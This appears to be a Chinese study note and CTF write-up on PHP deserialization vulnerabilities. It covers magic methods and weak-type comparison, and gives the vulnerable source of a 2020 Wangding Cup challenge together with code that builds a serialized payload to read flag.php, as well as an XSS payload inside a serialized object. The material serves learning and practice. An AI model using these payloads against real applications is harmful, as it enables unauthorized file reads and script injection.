

## 导图



## 序列化

序列化 (Serialization)是将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对象将其当前状态写入到临时或持久性存储区。以后，可以通过从存储区中读取或反序列化对象的状态，重新创建该对象。

## PHP 反序列化

理解这个漏洞前,需要先搞清楚php中serialize()，unserialize()这两个函数。

### 序列化serialize()

​            序列化说通俗点就是把一个对象变成可以传输的字符串

​			比如下面是一个对象:            

```php
    class S{
        public $test="pikachu";
    }
    $s=new S(); //创建一个对象
    serialize($s); //把这个对象进行序列化
    序列化后得到的结果是这个样子的:O:1:"S":1:{s:4:"test";s:7:"pikachu";}
        O:代表object
        1:代表对象名字长度为一个字符
        S:对象的名称
        1:代表对象里面有一个变量
        s:数据类型
        4:变量名称的长度
        test:变量名称
        s:数据类型
        7:变量值的长度
        pikachu:变量值
    
```

### 反序列化unserialize()

就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用。

```php
    $u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
    echo $u->test; //得到的结果为pikachu
    
```


序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了[PHP中的魔法函数](https://www.php.net/manual/zh/language.oop5.magic.php),就会导致安全问题

```php
        常见的几个魔法函数:
        __construct()当一个对象创建时被调用

        __destruct()当一个对象销毁时被调用

        __toString()当一个对象被当作一个字符串使用

        __sleep() 在对象在被序列化之前运行

        __wakeup将在序列化之后立即被调用

        漏洞举例:

        class S{
            var $test = "pikachu";
            function __destruct(){
                echo $this->test;
            }
        }
        $s = $_GET['test'];
        @$unser = unserialize($a);

        payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}

    
```

触发：unserialize 函数的变量可控，文件中存在可利用的类，类中有魔术方法

### 魔术方法

魔术方法是一种特殊的方法，当对对象执行某些操作时会覆盖 PHP 的默认操作。

**参考**：[php官方文档](https://www.php.net/manual/zh/language.oop5.magic.php)

php常见魔术方法

- __construct()//创建对象时触发
- __destruct() //对象被销毁时触发
- __call() //在对象上下文中调用不可访问的方法时触发
- __callStatic() //在静态上下文中调用不可访问的方法时触发
- __get() //用于从不可访问的属性读取数据
- __set() //用于将数据写入不可访问的属性
- __isset() //在不可访问的属性上调用 isset()或 empty()触发
- __unset() //在不可访问的属性上使用 unset()时触发
- __invoke() //当脚本尝试将对象调用为函数时触发

### 知识补充

**==  （允许类型转换**）

**==  检查——值相等 （值相等）**
**===检查——值和类型相等（类型和值都要相等）**

**js在比较的时候如果是 == 会先做类型转换，再判断值得大小，如果是===类型和值必须都相等。**

## 演示案例：

### 先搞一把 PHP 反序列化热身题稳住-无类问题-本地


```php
<?php
$key="xiaodi";
echo serialize($key);
?>
```

序列化结果

```
s:6:"xiaodi";
```


```php
//flag.php

<?php
echo "我爱吃瓜！";
?>
```


### 在撸一把 CTF 反序列化小真题压压惊-无类执行-实例

https://ctf.bugku.com/challenges#flag.php 

这一题没了！只能截一下视频的图了。


根据提示使用GET传参数hint后显示源码


代码中了解到，需要用cookie进行传参ISecer

且根据代码可知，（不使用get传参）$key的值为空，

然后按要求对空进行序列化，给$key赋值即可


### 然后抗一把 CTF 反序列化练习题围观下-有类魔术方法触发-本地

特定的操作会触发类中的魔术方法


### 最后顶一把网鼎杯 2020 青龙大真题舒服下-有类魔术方法触发-实例

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

构造需要的序列化字符串；

```
<?php
class FileHandler {
public $op=' 2';
public $filename="flag.php";
public $content="liandy";  
}
$flag= new FileHandler();
$flag_1=serialize($flag);
echo $flag_1;
?>
```


```txt
O:11:"FileHandler":3{s:2:"op";s:2:"2";s:8:"filename";s:8:"flag.php";s:7:"content";s:6:"liandy";}
```


然后传参


获取到flag


### 解析

<?php
class FileHandler{
public $op=' 2';//源码告诉我们 op 为 1 时候是执行写入为 2 时执行读
public $filename="flag.php";//文件开头调用的是 flag.php
public $content="xd";
}
$flag = new FileHandler();
$flag_1 = serialize($flag);
echo $flag_1;
?>
涉及：反序列化魔术方法调用，弱类型绕过，ascii 绕过
使用该类对 flag 进行读取，这里面能利用的只有__destruct 函数（析构函数）。__

destruct 函数对$this->op 进行了===判断

并内容在 2 字符串时会赋值为 1，

process 函数中使用==对$this->op 进行判断（为 2 的情况下才能读取内容），

因此这里存在弱类型比较，可以使用数字 2 或字符串' 2'绕过判断。
is_valid 函数还对序列化字符串进行了校验，

因为成员被 protected 修饰，因此序列化字符串中会出现 ascii 为 0 的字符。

经过测试，在 PHP7.2+的环境中，使用 public 修饰成员并序列化，反序列化后
成员也会被 public 覆盖修饰。

## 涉及资源：

http://www.dooccn.com/php/
https://www.ctfhub.com/#/challenge
https://cgctf.nuptsast.com/challenges#Web
https://www.cnblogs.com/20175211lyz/p/11403397.html


```php


<?php
   //test.php 无类
error_reporting(0);
include "flag.php";
$KEY = "xiaodi";
$str = $_GET['str'];
if (unserialize($str) === "$KEY")
{
echo "$flag";
}
show_source(__FILE__);

?>
```

```php

<?php
//test.php 有类
class ABC{
public $test;
function __construct(){
$test =1;
echo '调用了构造函数<br>';
}
function __destruct(){
echo '调用了析构函数<br>';
}
function __wakeup(){
echo '调用了苏醒函数<br>';
}
}
echo '创建对象 a<br>';
$a = new ABC;
echo '序列化<br>';
$a_ser=serialize($a);
echo '反序列化<br>';
$a_unser = unserialize($a_ser);
echo '对象快要死了！';
?>
```

